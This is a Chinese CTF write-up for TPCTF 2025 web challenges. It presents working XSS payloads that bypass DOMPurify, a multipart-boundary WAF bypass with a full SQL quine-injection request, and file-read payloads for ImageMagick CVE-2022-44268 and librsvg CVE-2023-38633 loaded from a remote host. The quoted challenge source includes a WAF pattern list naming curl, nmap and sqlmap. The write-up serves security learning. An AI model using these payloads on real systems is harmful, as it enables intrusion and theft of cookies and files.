参考文章
https://blog.0xfff.team/posts/tpctf_2025_writeup/
baby layout
这是一道关于绕过DOMPurify库，进行xss cookie窃取的题目
DOMPurify 是一个专门用于清理 HTML 输入的 JavaScript 库，旨在防止跨站脚本 (XSS) 攻击。它通过过滤和净化用户提供的 HTML 内容，确保其安全地嵌入到网页中，避免恶意代码的执行。

在这道题中调用了DOMPurify库对content 进行 HTML 内容的净化，以防止 XSS 攻击，而且将净化后的内容替换到 layout 字符串中特定的占位符 {{content}} 处

另外在下边的创建Layout处也会调用DOMPurify库的sanitize

sanitize的工作原理大致如下

那既然这两边都被进行了内容的净化，难以直接进行xss，那我们是否可以通过两者结合的方式进行xss呢
先尝试一下这个
layout：
<img src onerror="{{content}}">
content：
alert(1)
发现不行，因为当传入的内容为html的时候DOMPurify会对其中的元素进行解析，其中onerror为危险属性所有被净化掉了
所以layout变成了
<img src=1 >

但是如果我们传入的内容不为html结构的时候，DOMPurify无法对元素进行解析和净化，是可以正常传入onerror的
所以可以这样构造payload
layout：
<img src="{{content}}">
content：
1" onerror="alert(1)


safe-layout
这题和上一题的区别是增加了ALLOWED_ATTR: []
const sanitizedContent = DOMPurify.sanitize(content, { ALLOWED_ATTR: [] });
一个类似白名单的东西。
但是这玩意其实并不是白名单，虽然说禁用了所有的属性，但是data-*和aira-*属性还是可以正常使用的
这篇文章中有提到：

所以可以构造出payload
content
123" onload="alert(1)
layout
<svg data-type="{{content}}"></svg>
或者是
layout
<svg aria-hidden="{{content}}"></svg>
safe layout revenge
这题把上题中使用的aria-*和data-*给ban掉了

还是看上题中的那篇文章

在这篇文章中提到的CVE-2023-48219中，会在DOMpurify后将\uFFFF替换为空。
所以这里可以利用\uFEFF对html代码进行截断，从而绕过DOMpurify
回到这道题，我们这里也可以达到类似的效果。我们可以用{{content}}来代替\uFEFF对html进行截断。
所以payload就是
//content为空
layout：
x<style><{{content}}/style><{{content}}img src=x onerror=alert(123)></style>

supersqli
考点：解析差异绕过和quine注入
拿到附件
我们可以看到这道题用go实现了一个反向代理和WAF
1var sqlInjectionPattern = regexp.MustCompile(`(?i)(union.*select|select.*from|insert.*into|update.*set|delete.*from|drop\s+table|--|#|\*\/|\/\*)`)
2
3var rcePattern = regexp.MustCompile(`(?i)(\b(?:os|exec|system|eval|passthru|shell_exec|phpinfo|popen|proc_open|pcntl_exec|assert)\s*\(.+\))`)
4
5var hotfixPattern = regexp.MustCompile(`(?i)(select)`)
6
7var blockedUserAgents = []string{
8 "sqlmap",
9 "nmap",
10 "curl",
11}
再看到urls.py
1from django.contrib import admin
2from django.urls import path
3from blog import views
4
5urlpatterns = [
6 path("flag/", views.flag, name="flag"),
7 path("", views.index, name="index"),
8]
定义了一个flag路由，指向views.py的flag函数
跟进views
1from django.shortcuts import render
2from django.db import connection
3
4# Create your views here.
5from django.http import HttpResponse,HttpRequest
6from .models import AdminUser,Blog
7import os
8
9def index(request:HttpRequest):
10 return HttpResponse('Welcome to TPCTF 2025')
11
12def flag(request:HttpRequest):
13 if request.method != 'POST':
14 return HttpResponse('Welcome to TPCTF 2025')
15 username = request.POST.get('username')
16 if username != 'admin':
17 return HttpResponse('you are not admin.')
18 password = request.POST.get('password')
19 users:AdminUser = AdminUser.objects.raw("SELECT * FROM blog_adminuser WHERE username='%s' and password ='%s'" % (username,password))
20 try:
21 assert password == users[0].password
22 return HttpResponse(os.environ.get('FLAG'))
23 except:
24 return HttpResponse('wrong password')
这里存在sql注入
所以接下来的目标就是要想办法绕过waf，进行sql注入
可以利用multipart boundary来绕过waf，参考下面的这篇文章
https://www.geekby.site/2022/03/waf-bypass/#multipart-%E6%B7%B7%E6%B7%86
1POST /flag/ HTTP/1.1
2Host: 127.0.0.1:7788
3sec-ch-ua-mobile: ?0
4Sec-Fetch-Site: cross-site
5Upgrade-Insecure-Requests: 1
6Sec-Fetch-Dest: document
7sec-ch-ua-platform: "Windows"
8sec-ch-ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
9Referer: http://mitm/
10Sec-Fetch-Mode: navigate
11Sec-Fetch-User: ?1
12Accept-Language: zh-CN,zh;q=0.9
13User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
14Accept-Encoding: gzip, deflate, br, zstd
15Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
16Content-Type: multipart/form-data; boundary=a
17
18--a
19Content-Disposition: form-data; name="username"
20
21admin
22--a
23Content-Disposition: form-data; name="password";filename="password"
24Content-Disposition: form-data; name="password";
25
26123
27--a--
这题我们可以使用quine注入，即构造sql语句使我们输入和输出的结果一致，从而绕过
1assert password == users[0].password
参考文章：
https://www.cnblogs.com/meraklbz/p/18169584
生成一个payload
1def quine(data, debug=True):
2 if debug:
3 print(data)
4 data = data.replace('$$',"REPLACE(REPLACE($$,CHAR(34),CHAR(39)),CHAR(36),$$)")
5 blob = data.replace('$$','"$"').replace("'",'"')
6 data = data.replace('$$',"'"+blob+"'")
7 if debug:
8 print (data)
9 return data
10
11data = quine("1' union select 1,2,$$--")
完整payload
1POST /flag/ HTTP/1.1
2Host: 127.0.0.1:7788
3sec-ch-ua-mobile: ?0
4Sec-Fetch-Site: cross-site
5Upgrade-Insecure-Requests: 1
6Sec-Fetch-Dest: document
7sec-ch-ua-platform: "Windows"
8sec-ch-ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
9Referer: http://mitm/
10Sec-Fetch-Mode: navigate
11Sec-Fetch-User: ?1
12Accept-Language: zh-CN,zh;q=0.9
13User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
14Accept-Encoding: gzip, deflate, br, zstd
15Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
16Content-Type: multipart/form-data; boundary=a
17
18--a
19Content-Disposition: form-data; name="username"
20
21admin
22--a
23Content-Disposition: form-data; name="password";filename="password"
24Content-Disposition: form-data; name="password";
25
261' union select 1,2,REPLACE(REPLACE('1" union select 1,2,REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")--',CHAR(34),CHAR(39)),CHAR(36),'1" union select 1,2,REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")--')--
27--a--

thumbor1
thumbor是一个图片处理服务工具，可以对图片进行动态调整
附件只有一个dockerfile
可以起个docker拿一下源码

这题不是因为thumbor有问题，而是因为thumbor的一个组件ImageMagick存在任意文件读取漏洞，也就是CVE-2022-44268。

去GitHub找一个POC
voidz0r/CVE-2022-44268: A PoC for the CVE-2022-44268 - ImageMagick arbitrary file read
从readme可以看到这里可以通过类似ssrf的方式远程加载图片

在vps上构造好png，远程加载即可
http://localhost:8800/thumbor/unsafe/450x/YOUR_IP/图片
其实就是复现cve
thumbor2
dockerfile里面增加了最新版的ImageMagick，其实就是修复了上一题的ImageMagick
这题是另一个组件librsvg的漏洞，CVE-2023-38633
librsvg 2.56.3 之前版本中 URL 解码器的目录遍历问题，可以被本地或远程攻击者用来泄露文件（在预期区域之外的本地文件系统上），例如通过在 xi:include 元素中使用 href=“.?../…/…/…/…/…/…/…/…/…/etc/passwd” 来读取结果。 原文链接：https://blog.csdn.net/HMX404/article/details/137231580
原理参考文章：
When URL parsers disagree (CVE-2023-38633) - Canva Engineering Blog
payload：
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="3000" height="3000" xmlns:xi="http://www.w3.org/2001/XInclude">
<rect width="3000" height="3000" style="fill:rgb(255,255,255);" />
<text x="0" y="1500" font-size="100">
<xi:include href=".?../../../../../../../../flag" parse="text"
encoding="UTF-8">
<xi:fallback>file not found</xi:fallback>
</xi:include>
</text>
</svg>
跟上题差不多，在服务器上创建一个txt，将payload写进去，远程加载即可
http://localhost:8800/thumbor/unsafe/450x/YOUR_IP/poc.txt